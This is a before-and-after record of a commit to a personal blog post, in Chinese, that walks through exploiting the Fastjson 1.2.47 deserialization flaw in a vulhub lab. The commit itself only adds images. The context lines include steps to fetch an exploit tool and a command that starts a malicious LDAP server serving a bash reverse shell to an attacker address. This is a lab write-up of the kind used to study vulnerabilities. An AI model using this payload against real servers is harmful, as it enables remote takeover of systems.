

Before and after one commit to jeansgit/jeansgit.github.io, a plain HTML site: page 2020/10/27/fastjson147/index.html in a window 1280 px wide. Shown: the part 1561-2653 px from the top of the page at 92% size. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Site updated: 2020-10-27 23:38:10

```diff
--- a/2020/10/27/fastjson147/index.html
+++ b/2020/10/27/fastjson147/index.html
@@ -13,11 +13,13 @@
 <meta property="og:url" content="http://www.yi-diandian.com/2020/10/27/fastjson147/index.html">
 <meta property="og:site_name" content="Jean’s Blog">
 <meta property="og:description" content="Fastjson简介Fastjson 是一个 阿里巴巴开源的Java 库，可以将 Java 对象转换为 JSON 格式，当然它也可以将 JSON 字符串转换为 Java 对象。Fastjson 可以操作任何 Java 对象，即使是一些预先存在的没有源码的对象。Fastjson 源码地址：https:&#x2F;&#x2F;github.com&#x2F;alibaba&#x2F;fastjsonFastjson 中文 Wiki：http">
+<meta property="og:image" content="https://raw.githubusercontent.com/jeansgit/jeansgit.github.io/master/css/images/fastjson1.png">
 <meta property="article:published_time" content="2020-10-27T14:53:07.048Z">
-<meta property="article:modified_time" content="2020-10-27T15:15:29.876Z">
+<meta property="article:modified_time" content="2020-10-27T15:37:52.524Z">
 <meta property="article:author" content="Jean">
 <meta property="article:tag" content="fastjson">
 <meta name="twitter:card" content="summary">
+<meta name="twitter:image" content="https://raw.githubusercontent.com/jeansgit/jeansgit.github.io/master/css/images/fastjson1.png">
 
     <link rel="alternate" href="/atom.xml" title="Jean’s Blog" type="application/atom+xml">
 
@@ -119,6 +121,7 @@
 <li>Java HotSpot(TM) 64-Bit Server VM (build 25.211-b12, mixed mode)</li>
 </ul>
 <h3 id="Centos7上执行操作"><a href="#Centos7上执行操作" class="headerlink" title="Centos7上执行操作"></a>Centos7上执行操作</h3><p>1、下载vulhub漏洞环境<br>git clone <a href="https://github.com/vulhub/vulhub.git" target="_blank" rel="noopener">https://github.com/vulhub/vulhub.git</a><br>2、安装docker、docker-compose<br>3、进入fastjson 1.2.47的目录<br>我这里是/root/vulhub-master/fastjson/1.2.47-rce</p>
+<p><img src="https://raw.githubusercontent.com/jeansgit/jeansgit.github.io/master/css/images/fastjson1.png" alt></p>
 <p>4、执行docker-compose build &amp;&amp; docker-compose up -d启动漏洞环境<br>5、访问漏洞环境<br><a href="http://192.168.96.128:8090/" target="_blank" rel="noopener">http://192.168.96.128:8090/</a></p>
 <h3 id="Kali上执行操作"><a href="#Kali上执行操作" class="headerlink" title="Kali上执行操作"></a>Kali上执行操作</h3><p>1、下载漏洞利用工具fastjson_rce_tool<br>Git clone <a href="https://github.com/wyzxxz/fastjson_rce_tool" target="_blank" rel="noopener">https://github.com/wyzxxz/fastjson_rce_tool</a></p>
 <p>2、开启LDAP服务<br>java -cp fastjson_tool.jar fastjson.HLDAPServer 192.168.96.129 80 “bash=/bin/bash -i &gt;&amp; /dev/tcp/192.168.96.129/4444 0&gt;&amp;1”</p>
```
Also changed, not shown: index.html (+1 -0 lines).
